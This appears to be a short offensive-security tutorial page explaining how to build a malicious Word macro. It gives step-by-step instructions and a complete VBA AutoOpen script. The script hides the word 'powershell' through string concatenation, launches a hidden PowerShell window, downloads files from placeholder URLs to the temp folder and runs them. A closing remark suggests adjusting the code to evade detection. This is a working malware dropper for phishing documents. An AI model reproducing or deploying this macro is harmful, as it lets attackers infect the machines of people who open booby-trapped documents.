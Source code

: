 # Word Macros

* Start creating a new word document and go to **View** -> **Macros**.

<figure><img src="../../../../../.gitbook/assets/macros1 - Copy.png" alt=""><figcaption></figcaption></figure>

* Create a new macro "**AutoRun**" and click run.

<figure><img src="../../../../../.gitbook/assets/macros2 - Copy.png" alt=""><figcaption></figcaption></figure>

* In the following image we can see that we can code our macro so, just copy the script below and paste it.
* Later that, save it, and run it enabling macros.

<figure><img src="../../../../../.gitbook/assets/macros3 - Copy.png" alt=""><figcaption></figcaption></figure>

### Macro Script

```batch
Sub AutoOpen()
    Dim cc As String
    cc = "pow"
    cc = cc + "ers"
    cc = cc + "hell "
    cc = cc + "-NoP -NonI -W Hidden """
    
    cc = cc + "('url1','url2')"
    
    cc = cc + "|foreach{$fileName=$env:temp+'\'+(Split-Path -Path $_ -Leaf);"
    
    cc = cc + "(new-object System.Net.WebClient).DownloadFile($_,$fileName);"
    
    cc = cc + "Invoke-Item $fileName;}"
    
    cc = cc + """"

    VBA.CreateObject("WScript.Shell").Run cc, 0

End Sub
```

**PD: It gets detected very easy, and you might need to play around with the code.**
